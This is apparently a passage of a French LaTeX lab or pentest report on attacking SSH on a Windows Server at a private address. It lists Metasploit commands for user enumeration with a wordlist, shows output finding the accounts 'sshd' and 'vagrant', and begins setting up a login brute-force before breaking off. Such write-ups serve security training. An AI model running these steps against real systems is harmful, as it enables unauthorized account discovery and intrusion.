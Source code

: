 \documentclass[a4paper]{article}
\begin{document}
\newpage \subsubsection{Windows Server - SSH}





\begin{enumerate}
    \item Pour démarrer, je vais lancer un petit scanner qui cherche les utilisateurs du système.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize search openssh}
            \item \texttt{\footnotesize use auxiliary/scanner/ssh/ssh\_enumusers}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set USER\_FILE /usr/share/wordlists/metasploit/unix\_users.txt}
            \item \texttt{\footnotesize run}
        \end{itemize}
        Le résultat est \textcolor{blue}{\textbf{positif}}. On a trouvé 2 comptes ssh.
        \begin{example}
\begin{Verbatim}[fontsize=\footnotesize]
[*] 192.168.1.4:22 - SSH - Using malformed packet technique
[*] 192.168.1.4:22 - SSH - Starting scan
[+] 192.168.1.4:22 - SSH - User 'sshd' found
[+] 192.168.1.4:22 - SSH - User 'vagrant' found
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
\end{Verbatim}
        \end{example}
    \end{example}
    \item Maintenant, il faut chercher les mots de passe correspondant à ces logins.
    \begin{example}
        Commandes utilisées:
        \begin{itemize}
            \item \texttt{\footnotesize search ssh scanner}
            \item \texttt{\footnotesize use auxiliary/scanner/ssh/ssh\_login}
            \item \texttt{\footnotesize set RHOSTS 192.168.1.4}
            \item \texttt{\footnotesize set USERNAME vagrant}

\end{itemize}
\end{example}
\end{enumerate}
\end{document}
